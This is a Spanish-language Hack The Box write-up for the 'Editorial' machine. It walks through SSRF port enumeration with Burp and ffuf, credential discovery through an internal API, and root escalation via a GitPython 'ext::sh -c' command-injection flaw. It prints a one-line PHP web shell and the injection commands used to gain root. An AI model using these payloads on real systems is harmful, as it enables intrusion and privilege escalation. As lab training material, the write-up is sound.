# EDITORIAL [HACKTHEBOX] / Easy
### (BurpSuite, Repeater, Intruder, SSRF, ffuf, port enumeration, Gitpython, Remote Code Execution)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Empezamos haciendo un escaneo de nmap con los siguientes parámetros:

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.11.20 -oN escaneo_nmap
```

Nos descubre los siguientes puertos:



nos da también un dominio, que pondremos en /etc/hosts con `nano /etc/hosts`, que lo editaremos añadiendo una línea que ponga la ip víctima y el dominio, como es costumbre en HTB

A continuación, nos vamos a la web, donde nos encontramos el directorio /upload sin tener que hacer fuzzing:


Parece ser que nos deja subir archivos, vamos a probar si estamos ante una vulnerabilidad de Arbitrary File Upload mediante un simple archivo de php:

```php
<?php
system($_GET['cmd'])
?>
```


Si le damos a la pestañita "Preview" y nos ponemos en escucha con BurpSuite para ver la respuesta, nos encontramos con que sube el archivo a la web, vamos a verlo:



copiamos la ruta, nos metemos y vemos que nos descarga un archivo:



Y vemos que es lo mismo que hemos escrito en el archivo php, pero no nos deja ejecutar nada así que no es una vulnerabilidad de Arbitrary File Upload.



Vamos a probar si la web nos permite hacer peticiones HTTP, por ejemplo, una imagen de una url a nuestro gusto. Vamos a utilizar esta por ejemplo:


Creamos un server en python para que descargue la imagen:

```bash
python3 -m http.server 
```

Y ahora la subimos, nos damos cuenta que la pone en el sitio de la imagen, es decir, nos está haciendo una petición GET a nuestra página:



Ahora que sabemos todo esto, vamos a ver si nos deja enviar solicitudes a la máquina interna, es decir, a ver si es vulnerable a server-side request forgery (SSRF). En primer lugar se lo pediremos a la web:



ahora activaremos BurpSuite con la herramienta "Repeater" para ver que puertos internos de la máquina hay abiertos, ya que puede ser que nos lo haya ocultado en el escaneo de nmap:



Vamos a utilizar el "intruder" para probar todos los puertos, desde el 1 hasta el 65535. Pondremos el "Payload Type" en numbers:



Y la siguiente configuración:



Ahora nos iremos a "settings" y pondremos lo siguiente:



ahora seleccionaremos la parte que nos va a ir cambiando como si fuera una especie de ataque de fuerza bruta, es decir, lo que nos interesa es que pruebe todos los puertos:
![[Captura de pantalla 2024-10-25 184004.png]]



Vemos que si empezamos el escaneo es extremadamente lento, esto es porque la versión gratis de BurpSuite te capa bastante este tipo de cosas, es útil saber estas cosas pero en este caso vamos a hacer el escaneo con otra herramienta, ffuf. Seleccionamos la request de Burpsuite y le damos a "copy to file",yo lo llamaré "peticion_ssrf":



Lo moveremos a nuestro directorio actual de trabajo y cambiaremos el puerto (lo que queremos enumerar) por la palabra FUZZ:



e iniciaremos el enumeramiento con este comando:

```bash
ffuf -request peticion.ssrf -w <( seq 1 65535) -request-proto http -ac -v
```


Ahí le estamos diciendo a ffuf lo siguiente:

**1. Parámetro "-request":** El archivo donde está la petición de BurpSuite.
   
**2. Parámetro "-w":** La 'wordlist', que en este caso son números del 1 al 65535.
   
**3. Parámetro "-request-proto":** Aquí le estamos especificando que el tipo de petición es 'http', ya que si ejecutaría la enumeración mediante 'https'.
   
**4. Parámetro "-ac":** Esto es el autofiltrado de ffuf.
   
**5. Parámetro "-v":** Sirve para que nos especifique un poco más y nos lo ponga más curioso :)

Le damos enter y nos encuentra esto:



Ahora que tenemos un puerto que, al probarlo en la web, nos da una respuesta distinta, vamos a ver que respuesta es:



Ahora vamos a BurpSuite y vemos que nos saca una url:



La copiamos y nos descarga un archivo:



Vamos a ver que contiene:



Parece que hay una API expuesta, en cada endpoint nos explica un poco de que va cada uno así que si nos fijamos en ellos, vemos un mensaje que nos podría interesar:



Ahora, en el repeater del Burpsuite, ponemos la siguiente ruta:



Y nos responde con otra url que nos descargamos igual que la anterior:



Si la leemos:

`cat test | jq`

Nos sale lo siguiente:



Así que vamos a probar a entrar por ssh con esas credenciales:



Tenemos la flag de user.

Hacemos un tratamiento de la TTY:



Y ahora si hacemos un `ls`, vemos que hay un directorio que se llama "apps", si exploramos un poco vemos que hay un app.py en apps/app_api en el que nos encontramos unas credenciales:



Si hacemos un `su prod`  e introducimos esa contraseña estamos dentro. Vamos a hacer un `sudo -l` para saber que podemos ejecutar como root:



si nos fijamos un poco en el código del script vemos que importa algo raro que no acostumbramos a ver:



Así que vamos a buscar vulnerabilidades/exploits en internet, en mi caso al buscarlo encontré esta página 'https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858', donde nos dice que para solucionar esto habría que actualizar GitPyhton, que es una librería de python:



Vamos a ver que versión es en nuestra máquina víctima con el comando `pip freeze`:



Vemos que es la 3.1.29, según esa web, es vulnerable así que vamos a probarlo. Si nos fijamos en la PoC que propone, vemos que es muy parecido al script de python de la máquina:



Parece que lo que hace es poner `ext::sh -c touch% /tmp/pwned` en el parámetro que nos manda poner la máquina víctima "url_to_clone". Vamos a ejecutarlo:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /home/prod/samucrow'
```

Y vemos que, efectivamente nos crea el archivo en el directorio, pero nos lo crea como root:



Es decir, tenemos ejecución remota de comandos, vamos a probar dandole permisos de escritura al mismo script en python al que tenemos acceso como root:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% 4777% /opt/internal_apps/clone_changes/clone_prod_change.py"
```

Ahora si hacemos un  `ls -l`, vemos que tenemos el permiso, vamos a editar el script para que nos de una shell como root:



Ahora lo ejecutamos, pero siempre poniendo algo como parámetro ya que no nos deja ejecutarlo  si no, se puede poner cualquier palabra:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py rooted¬¬
```

Ya somos root:





# ./ROOTED

